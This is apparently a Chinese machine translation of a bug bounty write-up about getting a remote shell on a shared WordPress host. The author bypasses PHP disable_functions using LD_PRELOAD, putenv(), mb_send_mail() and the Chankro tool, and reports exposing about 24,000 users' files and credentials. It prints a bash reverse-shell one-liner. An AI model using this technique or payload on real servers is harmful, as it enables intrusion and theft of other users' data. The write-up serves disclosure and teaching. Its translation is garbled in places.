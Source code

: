 # 我是如何绕过 php 中的 disable_functions 来获得远程 shell 的

> 原文：<https://infosecwriteups.com/how-i-bypassed-disable-functions-in-php-to-get-a-remote-shell-48b827d54979?source=collection_archive---------0----------------------->

今天我将向您展示我是如何绕过 disable_functions 并获得一个远程 shell 来访问大多数用户的文件的。

**首先**，这是一个公共节目，但尽管如此，我还是要提到 target.com 的 ***。***

## 应用程序逻辑:

这个目标应用程序的目标是使用 WordPress 引擎为其域名下的注册用户(例如***【newblog.target.com】***)创建新的博客。

博客页面可以用应用程序编辑器或 WordPress 仪表盘来编辑和设计。

## 探索:

从我新创建的博客开始，我检查了一下我有哪些特权，允许我使用或修改哪些功能，在下面的截图中，我展示了我的第一次观察！虽然我有**管理员**的角色，但是我的博客没有**编辑器**标签，不像典型的 WordPress 博客那样。

![](img/0b82aff4342f0f11be183745899c93e5.png)

我无法编辑任何插件或主题，但我可以上传一个新的。

我需要检查上传编辑文件是否有任何限制，还需要检查运行我自己的 PHP 代码的能力。

因此，我没有编辑当前的主题/插件，而是开始上传一个新的，我下载了一个名为“**空白画布”**的简单主题，并尝试打开主 PHP 文件，该文件将在应用程序每次加载我的博客时运行，这样我就可以立即获得我的代码的结果，这个文件是**functions.php。**

我试着打印一个简单的字符串，一切正常。

![](img/d84662c71021f4a2e9e9c847a2c679b2.png)

然后我开始用 **shell_exec()** 和 **system()** 函数等运行任何系统命令，但是没有**没有** **输出！**

我猜测这些功能被禁用了，查了一下 **phpinfo()** ，我是对的！

![](img/9693315a29f899100510c2978992a8e6.png)

如果你不知道什么是 **disable_functions** 什么是**，**这允许服务器禁用某些 PHP 功能来提升服务器的安全性，你可以用 php.ini 文件或服务器配置来设置。

同样，当我检查 **open_basedir** 以检查允许我访问的开放目录时。***-所有路径用冒号分隔-。***

**我发现我不能访问任何系统文件，只有我上传的和 wp 文件。**

**![](img/f316b85fde8d6eaaae238ec5f463f817.png)**

**我还从允许的目录中注意到，我的网站子域在以下路径下有自己的文件**

```
/mnt/customars-**MY_SUBDOAMIN_NAME**-wordpress-pvc-**RANDOM_VALUE**/
```

**这也引起了我的注意，因为如果我的账号/网站在服务器里有目录，**可能这个服务器是共享服务器，里面有其他用户的文件！****

**如果是这样，正如我上面所说的，由于**的 open_basedir** 策略，我们不能访问它，所以我们需要找到一种方法绕过这些限制，让一个远程 shell 来浏览服务器文件，以检查我的猜测是否正确。**

## **绕过 disable_functions:**

**经过一番研究，我想到了两种方法，我们先讨论其中一种，但在开始之前，有几点需要声明:**

*   **有一个名为`**LD_PRELOAD**`的环境变量，它提供了在其他库之前预加载一个库- *LibraryName.so -* 的可能性。**
*   **如果我们能够将文件设置为一个在我们控制之下的共享对象的路径，那么文件**将在任何其他库之前被加载，是的，没有 PHP 的限制！****
*   **为此，首先需要运行一个二进制程序。**

**现在我们有了主要的想法，即将`**LD_PRELOAD**` 环境变量设置或覆盖到一个受控的共享库中。**

**简而言之，我们需要以下内容:**

1.  ****要执行的二进制。****
2.  **以**的方式设置或覆盖** `**LD_PRELOAD**` 变量。**
3.  ****创建我们的任意对象**，它可以是二进制或 bash 脚本，这样我们就可以运行命令或得到一个反向 shell。**

**PHP 中一个著名的函数是 **mail()** 函数，如果它是在 PHP 中执行的话，我知道在我们的例子中它在 phpinfo 页面中被禁用了。不过，无论如何，这个函数将使用您系统上的`**/user/sbin/sendmail**` **二进制文件**，PHP 将首先在您的 **$PATH** 中查找 **sendmail** 然后执行它，这正是我们想要的，**但是我们知道它被禁用了，所以我们需要一个替代方案！****

**有一个函数的工作原理和"**mail()"**is**" MB _ send _ mail()"**一样但是它只有在 **mbstring** 模块被启用的情况下才会工作，让我们重新看一下 phpinfo。**

**![](img/99657e531741e58285edcb1d2c24d62d.png)**

**很好，已经启用了，现在我们可以使用它了。**

**为了设置环境变量，我们可以使用 **putenv()** 函数，正如你可能注意到的，它也是**而不是**禁用的。**

**最后一件事是创建我们的任意库，我找到了 [Chankro](https://github.com/TarlogicSecurity/Chankro) 工具，它将帮助我们完成所有这些，你将把你的**反向 shell 有效负载**和你控制的**目录**给它，它将为你提供包含在主题文件中的最终 PHP 代码。**

**这个工具基于使用 **mail()** 函数，所以我们可以很容易地编辑源代码，将 **mail()** 改为 **mb_send_mail()。****

**![](img/2916a5fb04b8aa1c9c52124c1bd22ab3.png)**

**保存编辑过的文件，我们可以使用一个简单的反向 shell 有效负载，如**

```
bash -c 'sh -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1'
```

**现在我们可以运行这个工具，结果将是一个包含我们任意代码的 PHP 文件。**

**让我们将其内容添加到“**空白画布”**主题文件中的**functions.php**中并上传。**

**一切都好，我们可以创建一个 Netcat 监听器并访问我们的网站。**

**![](img/0b2fb9d9dcbb4a70ddef0a693df0a3f2.png)****![](img/a070e397720c3cd8fea1639877106f10.png)**

**我们得到了一个反向外壳，现在回到主要目标，我们想知道这是否是一个共享服务器，是否有其他用户的文件。**

**当我搜索时，我找到了大约 24000 个用户的文件！**

**![](img/5da00f05443beba7cd5bc74cb70856ed.png)**

**此外，我还发现了大多数用户的数据库用户名和密码，我还发现了一些其他人的身份验证令牌，等等。**

**![](img/66964e2658847c6708f12f1d15793c97.png)**

**我希望你喜欢阅读，如果你有任何反馈，我会很高兴！**

**参考资料:
[https://www.macs.hw.ac.uk/~hwloidl/docs/PHP/ref.mail.html](https://www.macs.hw.ac.uk/~hwloidl/docs/PHP/ref.mail.html)
https://www . tarlogic . com/blog/how-to-bypass-disable _ functions-and-open _ basedir/**